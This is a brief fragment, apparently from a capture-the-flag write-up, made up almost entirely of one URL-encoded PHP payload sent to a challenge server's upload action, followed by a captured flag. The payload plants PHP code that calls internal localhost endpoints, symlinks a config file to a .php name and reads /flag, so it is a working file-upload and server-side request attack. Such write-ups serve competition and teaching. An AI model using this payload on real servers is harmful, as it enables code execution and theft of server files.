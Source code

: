 - `http://pwnable.org:47781/?action=upload&data[]=%3C?php%20error_reporting(E_ALL);ini_set('display_errors',1);var_dump(file_get_contents('http://127.0.0.1/init?dir=/var/www/html/'.$dir.'/'));symlink('config.json',$dir.'w.php');var_dump(file_get_contents('http://127.0.0.1/scan?dir=/var/www/html/'.$dir.'/'));var_dump(file_get_contents('http://127.0.0.1/read?target=/flag%26dir=/var/www/html/'.$dir.'/'));?%3E`
- `flag{dc6a73af052c6135b4c6356a4aaf0b58}`
